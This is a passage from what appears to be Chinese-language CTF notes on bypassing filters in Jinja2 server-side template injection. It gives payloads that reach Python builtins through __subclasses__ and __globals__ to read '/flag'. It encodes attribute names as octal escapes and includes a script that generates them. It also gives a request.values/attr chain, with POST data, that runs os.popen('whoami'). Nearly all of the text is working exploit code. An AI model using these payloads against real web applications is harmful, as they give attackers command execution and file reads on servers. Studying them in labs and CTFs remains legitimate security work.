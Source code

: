 还可用set 语句
```python
{ % set chr=[].__class__.__base__.__subclasses__()[61].__init__.__globals__.__builtins__.chr % }{ { [].__class__.__base__.__subclasses__()[40](chr(47)+chr(102)+chr(108)+chr(97)+chr(103)).read()} }
```

## ⑦ 无字母

另一种方法来自SCTF wp (无字母型)

```python
{ {[]['\137\137\143\154\141\163\163\137\137']} } // []['__class__']
```

直接贴个构造脚本

```python
exp = "__class__"
dicc = []
exploit = ""
for i in range(256):
    eval("dicc.append('{}')".format("\\"+str(i)))
for i in exp:
    exploit += "\\"+ str(dicc.index(i))

print(exploit)
```





## ⑧  []、引号、下划线绕过

```python
()|attr(request.values.cla)|attr(request.values.base)|attr(request.values.sub)
()|attr(request.values.geti)
(59)|attr(request.values.init)|attr(request.values.glob)|attr(request.values.get
i)(request.values.buil)|attr(request.values.geti)(request.values.eval)
(request.values.cmd)
```
post data
```
cla=__class__&base=__base__&sub=__subclasses__&geti=__getitem__&init=__init__&gl
ob=__globals__&buil=__builtins__&eval=eval&cmd=__import__("os").popen("whoami").
read()
```


利用attr
![U3wQPg.png](https://s1.ax1x.com/2020/07/12/U3wQPg.png)

![U3wlGQ.png](https://s1.ax1x.com/2020/07/12/U3wlGQ.png)
因为中括号原因 需要用getitem方法获取` __builtins__` 和 `eval`


